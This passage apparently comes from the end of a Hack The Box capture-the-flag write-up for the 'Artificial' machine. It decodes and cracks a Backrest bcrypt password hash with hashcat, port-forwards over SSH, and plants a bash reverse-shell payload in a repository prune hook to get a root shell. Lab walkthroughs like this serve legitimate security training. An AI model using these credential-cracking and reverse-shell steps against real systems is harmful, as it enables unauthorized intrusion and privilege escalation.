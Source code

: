 ```a
 "version": 4,  
 "instance": "Artificial",  
 "auth": {  
   "disabled": false,  
   "users": [  
     {  
       "name": "backrest_root",  
       "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"  
     }  
   ]  
 }  
}
```
- Decode the `passwordBcrypt` field with base 64, and then crack with `hashcat`:
```a
[lkotlus@work] [~/Nerd/htb/artificial]    
(bash)> echo "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP" | base64 -d > backrest_hash.txt
[lkotlus@work] [~/Nerd/htb/artificial]    
(norm)> hashcat -m 3200 backrest_hash.txt ~/Nerd/wordlists/rockyou.txt    
hashcat (v6.2.6) starting  
  
...
  
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO:!@#$%^  
                                                            
...
```
- Now armed with `backrest_root:!@#$%^`, port forward backrest to your local machine:
```a
[lkotlus@work] [~/Nerd/htb/artificial]    
(bash)> ssh -L 9898:127.0.0.1:9898 gael@artificial.htb
```
- After this, login with the root credentials to `http://localhost:9898`. Create a backrest repository with a hook on `CONDITION_PRUNE_START`. This hook will include the classic reverse shell payload:
```a
/bin/bash -c "bash -i >& /dev/tcp/10.10.14.237/8080 0>&1"
```
- Listen with netcat, then prune the repository. You've pwned Artificial:
```a
[lkotlus@work] [~/Nerd/htb/artificial]    
(bash)> nc -nlvp 8080  
Connection from 10.10.11.74:47444  
bash: cannot set terminal process group (1538): Inappropriate ioctl for device  
bash: no job control in this shell  
root@artificial:/#
```
### Lessons Learned
- The biggest hurdle was the privilege escalation. The clear lesson is to look for every file that you have access to, especially if you're in a unique group.
- Beyond that, everything just required some thinking and thoroughness.